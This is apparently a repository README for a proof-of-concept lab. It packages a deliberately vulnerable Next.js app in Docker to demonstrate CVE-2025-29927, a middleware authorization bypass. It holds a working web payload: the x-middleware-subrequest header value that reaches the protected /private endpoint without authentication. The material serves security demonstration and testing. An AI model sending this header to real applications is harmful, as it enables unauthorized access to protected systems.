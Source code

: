 # Next.js Middleware Exploit: CVE-2025-29927 Authorization Bypass POC
This folder contains a sample web application vulnerable to [CVE-2025-29927](https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass), a vulnerability in NextJS allow authorization bypass by adding special header.

## Running the application

Run it:


```
docker build . -t vulnerable-app
docker run -p 3000:3000 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a private endpoint `/private` that is accessible only by authenticated users.  


You can bypass authentication by adding the following HTTP header to the request:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```